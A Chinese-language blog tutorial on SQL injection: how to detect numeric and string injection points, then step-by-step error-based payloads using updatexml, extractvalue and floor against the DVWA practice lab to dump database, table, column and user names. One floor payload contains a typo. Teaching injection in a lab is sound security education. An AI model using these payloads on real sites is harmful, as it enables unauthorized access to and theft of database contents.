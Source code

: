 # SQL注入篇


# SQL 注入篇

## SQL 注入常用函数

```markdown
1.联合注入函数:
concat()、concat_ws()、group_concat() 2.布尔盲注函数:
length()、left()、right()、substr()、mid()、ascii()、ord() 3.时间盲注函数:
sleep()、if() 4.报错注入函数:
floor()、exp()、updatexml()、extractvalue()
```

## (一)注入类型

SQL 注入通常分为两种类型：数字型和字符型

### (1)注入类型为数字型时，SQL 查询语句通常为：

` select * from users where id = x`

判断方法：

```sql
1. ?id = 1 and 1 = 1 --+ 若无报错，继续下一步
2. ?id = 1 and 1 = 2 --+ 若报错， 则注入类型为数字型
```

### (2)注入类型为字符型时，SQL 查询语句通常为：

`select * from users where id = '1'`

判断方法：

```sql
1. ?id = 1' and '1' = '1 --+ 若无报错，继续下一步
2. ?id = 1' and '1' = '2 --+ 若报错， 则注入类型为字符型
```

## (二)报错注入

### 一、SQL 报错注入常用函数：

**updatexml（）**、**extractvalue（）**、**floor（）**

**(1) updatexml（）函数**

- updatexml（）使用不同的 xml 标记匹配和替换 xml 块，用于改变文档中符合条件的节点的值

- 基本语法：`UPDATEXML(xml_target, xpath_expr, new_val)`，`xml_target`是要修改的 XML 类型的数据，`xpath_expr`是一个 XPath 表达式，用于指定要修改的节点位置，`new_val`是一个新的节点值，用于替换当前节点的值

- 若 xpath_string 格式出现错误，mysql 会报出 xpath 语法错误，即（xpath syntax）

- 例如：`select * from users where id = 1 and (updatexml(1,0x7e,3));`0x7e 是字符~，不属于 xpath 语法格式，因此会出现 xpath 语法错误

**(2) extractvalue（）函数**

- extractvalue（）用于从 XML 文档中提取信息

- 基本语法：`ExtractValue(XML_fragment, XPath_string)`，其中`XML_fragment`是 XML 格式的字符串，`XPath_string`是用于定位 XML 文段中特定数据的 XPath 表达式

- 若 xpath_string 格式出现错误，mysql 会报出 xpath 语法错误，即（xpath syntax）

- 例如：`select * from users where id = 1 and (extractvalue(1,0x7e));`

**(3) floor（）函数**

- floor（）利用`select count(*),(floor(rand(0)*2)) as x from 表名 group by x;`导致数据库报错，通过 concat 函数连接注入语句与 floor(rand(0)\*2)函数，实现将注入结果与报错信息回显
- count(\*) 是一个聚合函数，用来计算表中所有行的数量，floor(rand(0)\*2)产生的固定序列为：**01101**，结合 group by 会产生一个虚拟表。
- 原理：rand 伪随机函数与**order by**或**group by**函数的冲突，例如 floor(rand(0)\*2)一开始计算得到了 0，group by 根据 0 分类统计，在写入要返回的虚表时 floor(rand(0)\*2)还要计算一次结果，这次结果却是 1，导致了冲突。

### 二、updatexml 函数实战（基于 dvwa 靶场）

1.爆数据库和用户名：`1' and updatexml(1,concat(0x7e,database(),0x7e,user()),1)#`

输出结果： ![测试结果](../../images/sql注入篇/1.png)

2.爆当前数据库的表信息：`1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1)#`

输出结果： ![测试结果](../../images/sql注入篇/2.png)

3.爆 dvwa 数据库中的 user 表的字段信息：`1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users'),0x7e),1)#`

输出结果： ![测试结果](../../images/sql注入篇/3.png)

4.爆数据库内容：`1' and updatexml(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users),0x7e),1)#`

输出结果： ![测试结果](../../images/sql注入篇/4.png)

### 三、extractvalue 函数实战（基于 dvwa 靶场）

1.爆数据库和用户名：`1' and extractvalue(1,concat(0x7e,database(),0x7e,user()))#`

输出结果： ![测试结果](../../images/sql注入篇/1.png)

2.爆当前数据库的表信息：`1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database())))#`

输出结果： ![测试结果](../../images/sql注入篇/2.png)

3.爆 dvwa 数据库中的 user 表的字段信息：`1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users')))#`

输出结果： ![测试结果](../../images/sql注入篇/3.png)

4.爆数据库内容：`1' and extractvalue(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users),0x7e))#`

输出结果： ![测试结果](../../images/sql注入篇/4.png)

### 四、floor 函数实战 (基于 dvwa 靶场)

1.判断是否存在报错注入：`1' union select count(*),floor(rand(0)*2) x from information_schema.tables group by x#`

输出结果： ![测试结果](../../images/sql注入篇/5.png)

确认存在报错注入

2.爆当前数据库名：`1' union select count(*),concat(floor(rand(0)*2),database()) x from information_schema.schemata group by x #`

输出结果： ![测试结果](../../images/sql注入篇/6.png)

可以看到数据库名为 dvwa，1 是随机数

3.爆当前数据库表信息：`1' union select count(*),concat(floor(0)*2,0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](../../images/sql注入篇/7.png)

4.爆数据库表中字段信息：`1' union select count(*),concat(floor(rand(0)*2),0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](../../images/sql注入篇/8.png)

5.爆数据库内容：`1' union select count(*),concat(floor(rand(0)*2),(select group_concat(first_name,last_name) from dvwa.users)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](../../images/sql注入篇/9.png)


---

> 作者: Hinoatari  
> URL: https://hinoatari.github.io/posts/sql%E6%B3%A8%E5%85%A5%E7%AF%87/  


